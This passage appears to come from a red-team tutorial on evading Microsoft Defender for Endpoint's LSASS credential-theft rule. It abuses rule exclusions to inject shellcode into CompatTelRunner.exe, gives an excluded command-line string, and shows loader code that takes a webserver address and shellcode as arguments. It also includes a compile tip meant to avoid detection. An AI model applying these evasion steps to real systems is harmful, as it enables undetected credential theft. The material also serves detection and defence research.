 We have two fields:
- `GetPathExclusion`: Paths of executables exempted from being detected by the respective ASR rule.
- `GetCommandLineExclusions`: Command line arguments if included will be exempted from being detected by the respective ASR rule.

It is possible to leverage both these rules to perform trusted execution to operate in the blind spots of MDE and avoid detection from the "Blocking Credential Stealing from LSASS" ASR rule.

Processes like WerFaultSecure.exe have issues running shellcode while processes like svchost.exe are heavily monitored hence not all excluded processes make ideal candidates for process injection. In this case we target the CompatTelRunner.exe process.
"CompatTelRunner.exe is also known as Windows Compatibility Telemetry. This periodically sends usage and performance data to Microsoft IP addresses so that improvements can be made on user experience and fix potential errors."
This makes it an optimal choice for injection, given its default availability on a wide range of systems, including Windows Home, Server editions, and Core editions.

An example of a permissible command line argument based on the above `GetCommandLineExclusions` is as follows.

```
"C:\Windows\system32\werfault.exe" -p
```

Incorporate both these changes to the source as follows. 
Also make sure to add functionality to parse arguments for the webserver and shellcode required so that these may not be hard-coded at all times.

```
if (argc < 3) {
	wprintf(L"Usage: <1P or H0stname> <sh3llcod3>\n");
	return 1;
}

LPCWSTR url;
LPCWSTR path;

// Convert narrow-character strings to wide-character strings
int urlLength = MultiByteToWideChar(CP_ACP, 0, argv[1], -1, nullptr, 0);
url = new wchar_t[urlLength];
MultiByteToWideChar(CP_ACP, 0, argv[1], -1, const_cast<LPWSTR>(url), urlLength);

int pathLength = MultiByteToWideChar(CP_ACP, 0, argv[2], -1, nullptr, 0);
path = new wchar_t[pathLength];
MultiByteToWideChar(CP_ACP, 0, argv[2], -1, const_cast<LPWSTR>(path), pathLength);
```

### Testing execution against MDE

Make sure to compile the POC as a Multi-threaded DLL to avoid runtime detections. 

*NOTE: vc_redist.x64.exe might be required on the target.*
